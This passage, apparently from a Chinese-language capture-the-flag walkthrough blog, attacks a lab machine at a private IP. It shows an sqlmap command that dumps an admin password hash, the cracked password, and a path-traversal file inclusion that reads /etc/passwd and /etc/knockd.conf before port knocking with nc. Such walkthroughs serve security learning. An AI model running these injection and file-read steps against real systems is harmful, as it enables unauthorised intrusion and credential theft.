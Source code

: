 ![13](https://havocykp.github.io/assets/images/img_blog11/13.png)

用户名/密码

找到管理员账号admin和密码hash

```javascript
┌─[✗]─[root@pendo]─[~]
└──╼ #sqlmap -u "http://192.168.101.190/results.php" --data "search=1" -D Staff -T Users -C Username,Password --dump


+----------+----------------------------------+
| Username | Password                         |
+----------+----------------------------------+
| admin    | 856f5de590ef37314e7c3bdf6f8a66dc |
+----------+----------------------------------+

```

![14](https://havocykp.github.io/assets/images/img_blog11/14.png)

MD5解码

admin/transorbital1

![15](https://havocykp.github.io/assets/images/img_blog11/15.png)

后台登录

![16](https://havocykp.github.io/assets/images/img_blog11/16.png)

文件包含

登录后台后发现提示：File does not exist，可能存在文件包含

![17](https://havocykp.github.io/assets/images/img_blog11/17.png)

猜测参数名为 file 尝试

<http://192.168.101.190/manage.php?file=../../../../../../../../etc/passwd>

![18](https://havocykp.github.io/assets/images/img_blog11/18.png)

然后就陷入了沉思 ....

后来看了看大佬的文章都用的是端口敲门：

需要知道它的自定义端口，然后依次对其进行敲门，然后就可以开始ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

<http://192.168.101.190/manage.php?file=../../../../../../../../etc/knockd.conf>

![19](https://havocykp.github.io/assets/images/img_blog11/19.png)

得到了需要去敲门的端口：7469，8475，9842，只需要挨个访问这几个端口就行了

nc 192.168.101.190 7469
